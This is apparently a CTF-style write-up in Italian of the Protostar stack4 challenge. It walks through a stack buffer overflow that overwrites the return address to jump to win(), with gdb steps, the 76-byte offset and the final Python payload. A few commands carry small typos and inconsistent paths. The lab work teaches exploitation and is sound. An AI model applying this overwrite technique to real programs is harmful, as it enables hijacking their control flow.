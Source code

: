 # Protostar_stack 4 - Stack-based buffer overflow

## Obiettivo della sfida
Eseguire la funzione _win()_ a tempo di esecuzione, ciò modifica il flusso di esecuzione poichè provoca il salto del codice alla funzione _win()_

## Tentativo
Proviamo a mandere in buffer overflow la variabile _buffer_ con:
```bash
> python -c 'print "a" + 80' | /opt/protostar/stack4
#output
Segmentation fault
```
Il programma scrive le prime 64 a nel buffer e le restanti vengono scritte in locazioni contigue alcune riservate alla memorizzazione della variabile EBP per la gestione dello stack.
### Riflessione
A differenza della sfida precedente qui non abbiamo una variabile esplicita da sovrascrivere. Abbiamo bisogno di una cella che se sovrascritta provoca l'alterazione del flusso di esecuzione.

### Indirizzo di ritorno
Essa è una cella di dimensioni pari all'architettura(4 byte per Protostar) e contiene l'indirizzo della prima istruzione da eseguire al termine della funzione descritta nello stack frame.

## Strategia di attacco
Sovrascrivere l'indirizzo di ritorno con quello della funzione _win()_ per farlo occorre scoprire l'indirizzo della cella di memoria che contiene l'indirizzo di ritorno e l'indirizzo della funzione _win()_

### Recuperare l'indirizzo di win()
Utilizziamo **gdb**
```bash
> gdb -q /opt/protstar/bin/stack4
(gdb) > p win
$1 = {void (void)} 0x80483f4 <win>
# 0x80483f4 indirizzo di win()
```

### Recuperare l'indirizzo di ritorno
Per ottenere l'indirizzo di ritorno di _main()_ è necessario ricostruire il **layout dello stack** di _stack4_ per farlo(senza il sorgente) bisogna disassemblare il main e possiamo farlo con la funzione **disassemble** di gdb quindi lanciamo
```bash
(gdb) > disassemble main
# Dump of assembler code
```
Analizziamo il dump e vediamo che i registri coinvolti sono:
- ESP: punta al top dello stack
- EBP: puntatore che consente di accedere alle variabili all'interno del frame

Inseriamo un **breakpoint** alla prima istruzione del main (abbiamo l'indirizzo perchè abbiamo il dump).
```bash
(gdb) > b *0x8048408
# breakpoint 1
# eseguiamo il programma
(gdb) > r
# monitoriamo l'evoluzione dello stack monitorando gli indirizzi di EBP e ESP ad ogni passo
(gdb) > p $ebp
$2 = (void *) 0xbffffdc8
(gdb) > p $esp
$3 = (void *) 0xbffffd4c
# 0xbffffd4c indirizzo di ritorno prima dell'esecuzione del main
# eseguiamo le istruzioni assembly passo dopo passo con
(gdb) > si
```

## Come sfruttare le vulnerabilità
Una volta seguita l'evoluzione dello stack possiamo capire quante "a" dobbiamo ripetere fino ad arrivare all'indirizzo di ritorno.  
Quindi dobbiamo dare in input un numero di a pari a  
`sizeof(buffer) + sizeof(padding) + sizeof(vecchio EBP)`.
La dimensione del buffer è **64 byte** + la dimensione del padding è **8 byte** + dimensione del vecchio EBP che è **4 byte**, quindi possiamo dire che servono 76 "a" per arrivare all'indirizzo di ritorno, una volta arrivati a quell'indirizzo scriviamo l'indirizzo di _win()_ (al contrario perchè è Little Endian).

### Istruzioni da eseguire
```bash
> 'python -c 'print "a" * 76 + "\xf4\x83\x04\x08"'' | /opt/protostar/bin/stack4
# sfida vinta
Segmentation fault
```

## Commenti sulla sfida
Il crash è causato dal fatto che dopo l'esecuzione di _win()_ viene letto il valore successivo dello stack rovinato di conseguenza il programma crasha ma non ci interessa perchè la sfida è vinta.